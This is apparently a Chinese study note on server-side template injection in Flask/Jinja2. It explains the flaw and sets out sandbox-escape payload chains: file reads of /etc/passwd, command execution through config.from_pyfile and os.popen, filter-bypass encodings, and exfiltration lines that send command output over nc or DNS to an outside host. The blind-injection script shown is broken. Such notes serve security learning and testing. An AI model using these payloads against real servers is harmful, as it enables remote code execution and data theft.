



# SSTI(服务器端模板注入)

> https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf
>
> https://xz.aliyun.com/t/5568#toc-6

## SSTI原理介绍

SSTI 全称Server Side Template Injection，服务器模板注入

### 1.1 什么是服务器模板

为什么需要服务器模板：

- HTML代码和应用程序逻辑混合在一起很难理解，而且写起来很难维护管理
- 后台输出html文档时，是静态输出的，直接通过后台打印出html代码。
- 说的就是php你，当然php的框架也是mvc架构了。

当前开发已经形成了非常成熟的MVC的模式(**当然，现在及未来开始都是前后端分离的开发模式了**)。模板引擎就常用于V中，通过对数据进行处理实现界面与数据的分离，业务代码与逻辑代码的分离。  

模板是用于从数据（变量）到实际的视觉表现（HTML代码）这项工作的一种实现手段。通俗点理解：拿到数据，塞到模板里，然后让渲染引擎将赛进去的东西生成 html 的文本，返回给浏览器，这样做的好处展示数据快，大大提升效率。

对于java来说，以前的v层是jsp，但是不好用，而且太老了，于是开发了其他的模板，比如Thymeleaf。

后端渲染：

- 浏览器会直接接收到经过服务器计算之后的呈现给用户的最终的HTML字符串，计算就是服务器后端经过解析服务器端的模板来完成的，后端渲染的好处是对前端浏览器的压力较小，主要任务在服务器端就已经完成。

前端渲染：

- 前端渲染相反，是浏览器从服务器得到信息，可能是json等数据包封装的数据，也可能是html代码，他都是由浏览器前端来解析渲染成html的人们可视化的代码而呈现在用户面前，好处是对于服务器后端压力较小，主要渲染在用户的客户端完成。

### 1.2 SSTI漏洞原理

- 和常见Web注入的成因一样，也是服务端接收了用户的输入，将其作为 Web 应用模板内容的一部分，**在进行目标编译渲染的过程中，执行了用户插入的恶意内容，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题**。其影响范围主要取决于模版引擎的复杂性，所以说 用户的输入永远都是不可信的。
- SSTI类似于pwn的格式化字符串漏洞。输入的字符传到了渲染的部分，而不是数据的部分。然后渲染的部分是会解析代码并执行的。

以Flask中的Jinja2为例，Flask 中使用了Jinja2 作为模板渲染引擎，`{{}}`在Jinja2中作为变量包裹标识符，Jinja2在渲染的时候会把`{{}}`包裹的内容当做变量解析替换。比如`{{1+1}}`会被解析成2，因此如果`1+1`换成恶意构造的语句，将可以实现注入。  

测试流程：在ssti中，一旦payload构造有问题就会返回500,这样也可以判定是否存在SSTI。



**各框架模板结构**:


**探测漏洞：**

- 在ssti中，一旦payload构造有问题就会返回500,这样也可以判定是否存在SSTI。
- 如果在web页面的源代码中看到了诸如以下的字符，就可以推断网站使用了某些模板引擎来呈现数据
    - `<div>{$what}</div> <p>Welcome, {{username}}</p> <div></div> ...`

- 如果我们输入的数据返回到页面上了，那么就有可能存在ssti（显然ssti会产生xss漏洞，所以可以利用xss作为探测ssti最基本的探针）
- 检测到模板注入后，我们需要判断具体的模板引擎。我们需要 fuzz     不同的字符，再通过返回的错误判断。当模板引擎屏蔽错误后，该类当法就失效了，并且暴力 fuzz 也对攻击自动化不友好。Burpsuite插件则对不同模板接受的 payload 做了一个分类，并以此快速判断模板引擎：
- 每一个模板引擎都有着自己的语法，Payload 的构造需要针对各类模板引擎制定其不同的扫描规则，就如同 SQL 注入中有着不同的数据库类型一样。

## java  SSTI

- java常用模板引擎：Jsp，FreeMarker，Velocity, thymeleaf。
- 

## php SSTI

## python 沙箱逃逸(主体为jinja2框架)

### python的基础知识

*   **名称空间**

    名称空间在python是个非常重要的概念，它是从名称到对象的映射，而在python程序的执行过程中，至少会存在两个名称空间

    >   内建名称空间：python自带的名字，在python解释器启动时产生，存放一些python内置函数的名字
    >
    >   全局名称空间：在执行文件时，存放文件级别定义的名字
    >
    >   局部名称空间（可能不存在）：在执行文件的过程中，如果调用了函数，则会产生该函数的名称空间，用来存放该函数内定义的名字，该名字在函数调用时生效，调用结束后失效

    ```
    加载顺序：内置名称空间------>全局名称空间----->局部名称空间
    名字的查找顺序：局部名称空间------>全局名称空间----->内置名称空间
    ```

    在python中，初始的**builtins**模块提供内建名称空间到内建对象的映射，通过`dir(__builtins__)`，查看到内部成分

    ```
    ['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'WindowsError', 'ZeroDivisionError', '_', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'all', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
    ```

*   **类继承**

    在python中，可以利用几种方法从一个变量(对象)返回到基类中

    以下为几种继承关系的方法

    ```
    __base__ //对象的一个基类，一般情况下是object，有时不是，这时需要使用下一个方法
    __bases__ //类型对象的全部基类，以元组形式，类型的实例通常没有属__bases__
    
    __mro__ //同样可以获取对象的基类，只是这时会显示出整个继承链的关系，是一个列表，object在最底层故在列表中的最后，通过__mro__[-1]可以获取到
    
    __subclasses__() //继承此对象的子类，返回一个列表
    ```

    

*   **常用的方法**

    ```
    __globals__ //返回一个由当前函数可以访问到的变量，方法，模块组成的字典，不包含该函数内声明的局部变量。
    
    __getattribute__()实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
    
    __builtins__   //返回一个由内建函数函数名组成的列表。
    
    __getitem__(index)  //返回索引为index的值。
    
    url_for  //可以直接和__globals__配合，如：url_for.__globals__['__builtins__']，或者和string等配合，详情看迭代器部分
    
    lipsum  //flask的一个方法,可以直接和__globals__配合，如：lipsum.__globals__['__builtins__']，或者和string等配合，详情看迭代器部分
    
    __init__   //该方法用于将对象实例化，如x.__init__.__globals__['__builtins__']
    //{{''.__class__.__mro__[-1].__subclasses__()["type"].__init__.__globals__}}像这种找到了类要查看该类的方法要先__init__再用__globals__，直接用__globals__会报错
    
    config  //查看配置文件
    
    __doc__   //获取到注释内容
    
    get_flashed_messages // flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
    
    __dic__     // 类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
    
    current_app          应用上下文，一个全局变量。
    
    __import__     //动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
    
    ```
    
*   变量

    我们可以通过`.`,`[]`,`_getitem_`魔法方法来访问变量的属性

    如果是字典的键值，也可以用pop(),get(),setdefault()函数获取

    eg：`__globals__.pop('__builtins__')`

    但pop()函数会删除里面的键

    

### 利用方法

知道了上面的基础知识，就可以尝试从沙盒中的变量到全局变量：`变量->对象->基类->子类遍历->全局变量`

```
eg: //不直接通过open而来打开一个文件
''.__class__.__mro__[-1].__subclasses__()[40]("C:/Users/TPH/Desktop/test.txt").read() 
分析：
''//字符
''.__class__//获取到''的类型,即字符型
''.__class__.__mro__[-1]//获取到字符型的基类，取最后一个即object
''.__class__.__mro__[-1].__subclasses__()[40]//继承object的子类，返回一个列表并取(40, <type 'file'>)
''.__class__.__mro__[-1].__subclasses__()[40]("C:/Users/TPH/Desktop/test.txt").read()//在将文件路径传入file类中并调用read()方法读取文件
```

### 利用思路

>   思路：`查阅官方文档->使用模板内置对象来查看所有能够使用的模板上下文->使用相关函数/方法来深入内省所有对象->分析框架源码`

### 查配置文件

通过配置文件的查询，可以快速寻找到框架内置的全局变量、函数等，从而利用其来进行测试

查询配置文件常常需要去查看**官方文档**，如Tornado框架提供了`handler.settings`来快速访问配置文件,而handler.settings其实指向的是RequestHandler.application.settings，即可以获取当前application.settings，从中获取到敏感信息

### 利用模板自身特性

>   对于模板和框架的区别，暂时只能浅浅的分析一下：
>
>   模板是作为渲染引擎的即将输入的变量通过某些函数来进行需要的输出，如{{2*2}}，输出为4
>
>   框架则是作为整体的环境搭建，如引用某些文件，配置文件的位置等

模板为方便程序员去搭配环境，常常会开放一些内置函数(变量)来读写特定文件(变量)，因此通过其来进行攻击,如Smarty中的getStreamVariable()方法来读取文件`{self::getStreamVariable("file:///proc/self/loginuid")}`

### 利用框架自身的特性

框架中搭建环境，会一步步引用关键文件，而我们去寻找框架本身的属性，看这个空框架有什么属性和类之间的引用，然后一步一步的靠近我们的目标

如Flask/jinja2中的config，其为配置对象，是个类字典对象，包含所有应用程序的配置值。其内有许多神奇的方法：from_envvar, from_object, from_pyfile, 以及root_path



其中，`from_pyfile`与`from_object`的连用可以进行攻击

```python
#源码
def from_pyfile(self, filename, silent=False):

    filename = os.path.join(self.root_path, filename)
    d = types.ModuleType('config')
    d.__file__ = filename
    try:
        with open(filename) as config_file:
            exec(compile(config_file.read(), filename, 'exec'), d.__dict__)
    except IOError as e:
        if silent and e.errno in (errno.ENOENT, errno.EISDIR):
            return False
        e.strerror = 'Unable to load configuration file (%s)' % e.strerror
        raise
    self.from_object(d)
    return True


def from_object(self, obj):

    if isinstance(obj, string_types):
        obj = import_string(obj)
    for key in dir(obj):
        if key.isupper():
            self[key] = getattr(obj, key)
```

分析：

*   

    ```python
    exec(compile(config_file.read(), filename, 'exec'), d.__dict__)
    ```

    compile(),会将config_file.read()的数据转换成exec函数可执行的字节，然后exec()执行数据后，会将执行结果放入d.__dict__字典中

    测试一下

    ```python
    a = {'Name': 'Zara', 'Age': 7, 'Class': 'First'}
    b='''c=1
    print('123')'''
    exec(compile(b, '', 'exec'), a)
    print(a)
    ```

    结果{'Name': 'Zara', 'Age': 7, 'Class': 'First',...增加的许多元素...,**'c': 1**},于是我们可以构造字符将其放入config中

*   from_pyfile中会调用from_object，这个方法会遍历  Obj 的 dict 并且找到大写字母的属性，将属性的值给 self[‘属性名’]
*   所以我们可以通过from_pyfile引用构造的文件内容为`from os import system%0aSHELL = system`，来通过config['SHELL']调用system命令

playload：

```jinja2
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}
//写文件,不通用的,最简单是相同路径放一个文件
{{ config.from_pyfile('/tmp/evil') }}
//加载system
{{ config['SHELL']('calc') }}  或 {{ config['SHELL']('gnome-calculator') }}
//window或ubuntu执行命令，弹出计算机
```

### 利用模语言自身的特性

Python  最最经典的就是使用魔法方法，这里就涉及到Python沙盒绕过了，前面说过，模板的设计者也发现了模板的执行命令的特性，于是就给模本增加了一种沙盒的机制，在这个沙盒中你很难执行一般我们能想到函数，基本都被禁用了，所以我们不得不使用自省的机制来绕过沙盒，详细看上面

### 过滤绕过(python)

>   下面是将常见的绕过介绍一下
>
>   对黑名单绕过，可以看[(47条消息) 细说Jinja2之SSTI&bypass_合天网安实验室的博客-CSDN博客](https://blog.csdn.net/qq_38154820/article/details/111399386)

测试环境

```python
from flask import Flask

from flask import render_template
from flask import request
from flask import render_template_string

app = Flask(__name__)
@app.route('/')
def test():
    code = request.args.get('id')
    template = '''
        &lt;h3&gt;%s&lt;/h3&gt;
    '''%(code)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True, port=80)
```

### 字符串绕过

*   **字符拼接**

    `""["__cla""ss__"]`
    `"".__getattribute__("__cla""ss__")`

    **但用.拼接会报错(`''."__cla""+"ss__"`)，用[]和`__getattribute__`访问没问题**

*   **反转**

    `""["__ssalc__"`][::-1]
    `"".__getattribute__("__ssalc__"[::-1])`

    **.**同样用不了

*   **ascii转换**

    利用python字符格式化format

    ```python
    print("{0}".format("hello"))
    #会输出hello
    #其中0是后面的索引号，来完成格式化
    ```

    也可以通过字符串格式化符号，来控制转换的编码，eg：

    `"{0:c}".format(97)    //'a'      其中c代表格式化字符及其ASCII码`

    其中c代表格式化字符及其ASCII码

    * **下面是格式化的相关符号** 

        | 符  号 | 说   明                                                      |
        | ------ | ------------------------------------------------------------ |
        | b      | 以二进制形式输出                                             |
        | c      | 格式化字符及其ASCII码                                        |
        | d      | 格式化整数，十进制                                           |
        | o      | 格式化无符号八进制数                                         |
        | x      | 格式化无符号十六进制数                                       |
        | e      | 用科学计数法格式化定点数，用'e'表示幂                        |
        | g      | 根据值的大小决定使用浮点数或幂形式（数值特别大）             |
        | n      | 当值为整数同d，为浮点数同g，但会有数字分隔符(就是类似100,000) |
        | %      | 百分数                                                       |

*   **编码绕过**

    ```python
    "__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
    #对于python2的话，还可以利用base64进行绕过
    "__class__"==("X19jbGFzc19f").decode("base64")
    ```

*   **利用chr()函数**

    chr() 用一个范围在 range（256）内的（就是0～255）整数作参数，返回一个对应的字符。

    `chr(i) #i -- 可以是10进制也可以是16进制的形式的数字。`

    ```python
    >>>print chr(0x30), chr(0x31), chr(0x61)   # 十六进制
    0 1 a
    >>> print chr(48), chr(49), chr(97)         # 十进制
    0 1 a
    ```

    利用:

    ```jinja2
    //设置chr为chr()函数
    {""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}//%2b为+
    ```

    

*   **利用~拼接(jinja2)**

    ```jinja2
    {{""[a~b]}}
    ```

*   **request绕过**

    利用request获取请求的信息，从而绕过

    ```
    request.args.name  //GET
    request.cookies.name  //cookie
    request.headers.name  //head
    request.values.name  //	POST
    request.form.name    //表单
    ```

    以`GET`方式，利用`request.args`传递参数为例

    ```jinja2
    {{().__class__.__bases__[0].__subclasses__()[213].__init__.__globals__.__builtins__[request.args.arg1](request.args.arg2).read()}}&arg1=open&arg2=/etc/passwd
    ```


*   ### reload

    该函数可以用来恢复被删除的函数

    用来重载`builtins`恢复函数

    `reload(__builtins__)`

*   全角数字替代正常数字

    yu22x师傅的半角转全角代码

    ```python
    def half2full(half):  
        full = ''  
        for ch in half:  
            if ord(ch) in range(33, 127):  
                ch = chr(ord(ch) + 0xfee0)  
            elif ord(ch) == 32:  
                ch = chr(0x3000)  
            else:  
                pass  
            full += ch  
        return full  
    t=''
    s="0123456789"
    for i in s:
        t+='\''+half2full(i)+'\','
    print(t)
    
    ```

    

### 过滤器

>   变量可以通过过滤器修改。过滤器与变量之间用管道符号（|）隔开，括号中可以有可选参数。可以链接多
>   个过滤器。一个过滤器的输出应用于下一个过滤器。
>
>   例如，{{ name|striptags|title }} 将删除变量名中的所有HTML标记，并将title大小写为输出(title(striptags(name)))。

下面为常见的几个过滤器,其他可以看官方文档与参考[Flask jinja2 内置过滤器 总结与分析 - Diego | BY Blog](http://diego.team/2020/11/19/Flask-jinja2-内置过滤器-总结与分析/)

*   **attr**

    用于获取变量

    ```python
    ""|attr("__class__")
    相当于
    "".__class__
    ```

*   **format**

    与format()函数类似

    `{ "%s, %s!"|format(greeting, name) }}`

    具体格式化格式可以看[Python入门--9--格式化 - Mo_槑 - 博客园](https://www.cnblogs.com/modaidai/p/6861841.html)

*   **first last random**

    分别返回数组的第一个，最后一个，随机一个

    ```python
    "".__class__.__mro__|last()
    相当于
    "".__class__.__mro__[-1]
    ```

*   **join**

    用来拼接字符串

    join('|')表示用|连接，如果没有直接连接

    ```python
    ""[['__clas','s__']|join] 或者 ""[('__clas','s__')|join]
    相当于
    ""["__class__"]
    ```

*   **lower**

    转换成小写

    ```python
    ""["__CLASS__"|lower]
    ```

*   **replace reverse**

    替换       反转

    ```python
    ""[""__claee__"|replace("ee","ss")] 构造出字符串 ""["__class__"
    "__ssalc__"|reverse] 构造出 ""["__class__"]
    ```

*   **string**

    类似于str(),把显示到浏览器中的值全部转换为字符串再通过下标引用

    ```python
    ().__class__   出来的是<class 'tuple'>
    (().__class__|string)[0] 出来的是<
    ```

*   **list**

    转换成列表

    配合上面的string转换成列表，就可以调用列表里面的方法取字符了

    **如果过滤了[],可以用pop()或`__getitem__`调用列表中的方法**

    ```
    (()|select|string|list).pop(0)
    ```

*   **select**

    通过对每个对象应用测试并仅选择测试成功的对象来筛选对象序列。
    如果没有指定测试，则每个对象都将被计算为布尔值

    可能不好理解，举个例子

    ```
    {{[1,3,4,9,16,48]|select('>',3)|list}}
    
    输出
    [4, 9, 16, 48]
    '>'是运算符，3是条件
    
    #如果没有list，会输出其存放的地址
    {{[1,3,4,9,16,48]|select('>',3)}}
    
    输出
    <generator object select_or_reject at 0x0000014298352750>
    ```

    于是可以利用其来构造字符串

    `{{()|select|string)[1]}}`输出为g

### 发掘可利用的playload

### 有回显

先可以爆破一波，找找哪些字符被ban，然后根据已有的字符去构造命令

```
python环境常用命令执行方式：
os.system()
用法：os.system(command)

os.popen()
用法：os.popen(command[,mode[,bufsize]])
说明：mode – 模式权限可以是 ‘r’(默认) 或 ‘w’。

subprocess
subprocess 模块有比较多的功能，subprocess模块被推荐用来替换一些老的模块和函数，如：os.system、os.spawn、os.popen等

subprocess模块目的是启动一个新的进程并与之通信。这里只讲用来运行shell命令的两个常用方法。

subprocess.call(“command”)
父进程等待子进程完成
返回退出信息(returncode，相当于Linux exit code)

与os.system功能相似,也无执行结果的回显

subprocess.Popen(“command”)
```

也可以用脚本去查找有用的函数，这里找了个脚本，不一定有用，看看原理就行

```jinja2


  
  
    
      {{ b['eval']('__import__("os").popen("whoami").read()') }}
    
  
  


```

```jinja2
#存在的子模块可以通过.index()来进行查询，如果存在的话返回索引，直接调用即可：
{{''.__class__.__mro__[2].__subclasses__().index(file)}}
#40
```

### 无回显

这里可以看[SSTI/沙盒逃逸详细总结 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/188172#h2-11)的无回显部分，为了方便查看，我就摘取下来了

*   利用nc 转发

    服务器开启 `nc -lvp 44444`

    playload `{{''.__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os'].system('ls | nc xx.xxx.xx.xx 44444')}}`

    如果嫌一次一次转发太复杂也可以考虑直接反弹交互型shell。（反弹shell的操作网上也一大堆，这里就不多赘述了，可以参考：https://github.com/0xR0/shellver）

*   dnslog转发

    curl `whoami`.xxxxxx

    参考[巧用DNSlog实现无回显注入](https://www.cnblogs.com/afanti/p/8047530.html)

-   建立本地文件再读取

    这个也很好理解，针对system无回显，直接执行`ls > a.txt`，再用open进行读取

-   curl上传文件

    这个方法没有实践过，某师傅博客上翻到的，记录一下或许今后就用到了。[无回显代码执行利用方法](http://admintony.com/无回显代码执行利用方法.html)

-   盲注

    `~p0~`类似SQL布尔注入，通过是否回显~p0~来判断注入是否成功。网上现有脚本如下：

    ```
    import requests
    
    url = 'http://127.0.0.1:8080/'
    
    def check(payload):
        postdata = {
            'exploit':payload
            }
        r = requests.post(url, data=postdata).content
        return '~p0~' in r
    
    password  = ''
    s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$'()*+,-./:;<=>?@[\]^`{|}~'"_%'
    
    for i in xrange(0,100):
        for c in s:
            payload = '~p0~'
            if check(payload):
                password += c
                break
        print password
    ```

## 总结

注入其实感觉都是一个原理，利用服务器的环境语法，来构造恶意语句，实现注入。本文以jinja2介绍到此，后续可能会补上不同框架的常见漏洞(如果没有就是鸽了，同样欢迎你们补上这个缺口，笑)

